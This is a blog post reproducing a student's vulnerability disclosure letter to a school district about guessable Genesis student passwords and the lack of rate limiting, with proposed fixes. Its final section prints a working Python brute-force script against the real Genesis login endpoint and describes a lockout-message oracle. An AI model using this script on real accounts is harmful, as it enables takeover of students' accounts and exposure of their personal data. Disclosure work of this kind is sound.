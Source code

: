 @Title = School Password Concern
@Author = Connor Slade
@Date = 02-11-22
@Description = How I hacked my school (that caught your attention huh)
@Tags = School, Passwords, Hacking, Genesis
@Path = other/school-password-concern
@Assets = .

---

# 🏫 School Password Concern

<div ad note>
Note

A document I made a while ago (Apr 2021) and sent to my school district addressing the poor student account security.

About 18 days later the school IT person responded saying they have a mechanism in place to limit the number of password retries to 8.
I looked into how they implemented this and found that when an account is tried more than 8 it disables the account...
At first I thought they just shifted the problem because now you could lock people out of their accounts by spamming login attempts.
But I soon realized that it didn't even fix the original problem!

When your login failed it would show an error message. If it was because of an incorrect password this message would _always_ be `"Username or password is incorrect."`.
But if you had a correct passwords but the account was under the 'ratelimit' it would say `"Account is Inactive."`. So you could still tell if the password was correct.

A few months later I rewrote the system in Rust making it like thousands of times faster, often cracking a password in under 30 seconds.

And nothing much has happened since. I hope they fix this because I cant have been the only one to see a problem here.

</div>

<div ad info>
Info

Source Code can be found [here](https://raw.githubusercontent.com/Basicprogrammer10/SchoolPasswordCrack).

</div>

## 🧠 Intro

I am writing to express a concern I have with district password security for the students, as well as to offer some possible solutions to fix this problem.

The [Genesis](https://www.genesisedu.com/) login system has a vulnerability that allows many possible passwords to be tried very quickly.
This could allow someone to fairly easily guess passwords and gain access to student accounts in a matter of minutes. With access to a student's password, a large amount of personal information is at risk.

## ❓ Why this is a problem

How is this bad? Well with these passwords being used for both Genesis accounts and student Google accounts lots of student's personal information is accessible.
This includes the following (in no particular order)

- Full Name
- Birth Date
- Age
- State ID
- School name
- Grade
- Attendance
- Grades
- Classes
- Teacher names
- Report Cards
- Forms
- Calendar Events
- Class Zoom Links
- Class Times
- Student Assignments
- Student Files
- Student Emails (of all students)
- YouTube Watch & Search history
- Google Search History
- Google Keep stuff
- Chrome Bookmarks
- Chrome Saved Passwords
- Chrome autofill form data
- Chrome currently open tabs
- Chrome History
- Google Photos
- Google Tasks
- Any Phones / Mobile devices signed in with school Google
- Device Details of devices signed in to school Google account
- And more

And this is just the information I found with just a few minutes of searching through my account.
I hope after reading that you are very concerned about the amount of personal information that is basically public (to anyone who cares enough to put a small amount of effort and time into it).
Now not only does anybody who cracks someone else's passwords have access to read the information contained in the categories mentioned above, but they can also edit/modify/send information/emails as someone else.

## ✨ Fixes

Now that this problem is known, it wouldn't be very helpful if I didn't suggest some fixes!
So here are two simple options to think about.

### 📀 Option 1

One fix for this problem is to use more secure passwords for accounts.
Currently, a large amount (not all) of student passwords appear to be formatted like this ⇒ `30####` where the `#`s are any number.
This means that for many student passwords only four digits need to be cracked.
This is bad because it lowers the time to crack passwords.
I have been able to crack my own password with some relatively simple [code](https://github.com/Basicprogrammer10/SchoolPasswordCrack/blob/master/src/SchoolPasswordCrack.py) in only a few minutes.
This means all student passwords could be cracked in a few weeks or less for over 7000 accounts.

I think that at a certain grade (I would say 6th grade) students could learn how to then make their own secure passwords.
Secure passwords have 10 characters made up of letters, numbers, and special characters.
These passwords should not be able to be seen by teachers or other staff but could be reset if needed.
This would be good in terms of security, but it will also teach students the important skill of making secure passwords.

### 💿 Option 2

Another way to fix this problem is by making some modifications to the Genesis login system.
This is something that would require working with the Genesis 'team' to fix but would be _ok_ if option 1 is not viable.

Currently, Genesis has no rate limit or CAPTCHA. This means that many automated password attempts can be made within very quick succession.
For example, the program mentioned above was able to make over 30 requests per second.
This allows simple brute force attacks (such as this one) to work.
Nowadays fixing this is extremely easy with the use of external services like reCAPTCHA.

### 🌠 Fixes Conclusion

There are of course more options than these two, but I think this is a good start and will hopefully get the district to think more about the security aspect of the services used.
Apart, these solutions are ok but if both are used together the school and its students will be made more secure than ever.

## 🛑 Conclusion

Personal information has become an incredibly valuable asset for advertisers, hackers, etc. it is now more important than ever to properly secure it.
At the moment I believe the district is **not** doing enough to secure this information, which places large amounts of personal protected student data at risk.
I believe that it is the district's responsibility to securely manage student's data on required sites and services (like Google Classroom and Genesis).

By reading this our district is one step closer to better security!
As I hope you can see from reading this, I really care about security and want to improve the school's technology for not only myself but all other students.
I will also be happy to discuss my thoughts and findings in more detail if It would be helpful.

Sincerely, Connor

## 📅 Technical Details (If you are interested)

Here I will be going over some specific technical details of this vulnerability. View the advanced version's [code](https://github.com/Basicprogrammer10/SchoolPasswordCrack/blob/master/src/SchoolPasswordCrack.py) and see it in action [here](https://asciinema.org/a/408164).
This vulnerability can be exploited manually if you have a lot of time but can be sped up immensely with a bit of code.

At its most basic my script just sends a GET request to `https://parents.genesisedu.com/SCHOOL_PAGE/sis/view` to get the `JSESSIONID` cookie assigned by the server.
Then it sends POST requests to `https://parents.genesisedu.com/SCHOOL_PAGE/sis/j_security_check` with the form data `{"j_password": <PASSWORD>, "j_username": <EMAIL>}` where `<PASSWORD>` is the password to try (ex: 307652 or 300936) and `<EMAIL>` is the email of the account to crack.
I found these details by looking at the site's network traffic when logging into my account.

Below you can see a basic python script that will (slowly) crack a password for the supplied email account.
Code comments are included to help show what each line does.

```python
import requests  # Import needed module

url      = 'https://parents.genesisedu.com/SCHOOL_PAGE/sis/j_security_check'  # Define api uri
checkUrl = 'https://parents.genesisedu.com/SCHOOL_PAGE/sis/view?gohome=true'  # Define defult url

# Put student Email here (ex: example@domain.com)
email = ''

assert email != '' # Dont run if email is empty
print(f'[*] Starting Crack for {email}')  # Print email to crack

for i in range(9999):  # Loop through possible passwords
    toTry = f'30{str(i).zfill(4)}'  # Create password to try (ex: 300736)
    print(f'[*] Trying [{toTry}]')  # print what password is being tried

    # Create new session to hold cookies
    ses = requests.Session()

    # Let server Create cookies needed to proform exploit (JSESSIONID)
    ses.get(checkUrl)

    # Get Data to send
    dataToSend = {"j_password": toTry, "j_username": email}

    # Try Password
    data = ses.post(url, data=dataToSend)

    # Check if is correct password
    if not "Account is inactive" in data.text and not "workStudentId" in data.text:
        continue
    print(f'\n[*] Complete: {toTry}')  # if passwords is correct print it
    break  # Exit the loop when the password has been found
```

Watch this script run [here](https://asciinema.org/a/408162). Now this works but is still very slow, however, it does a good job showing what is going on without optimizations.
To speed this up multi-threading can be used to attempt more passwords in the same amount of time.
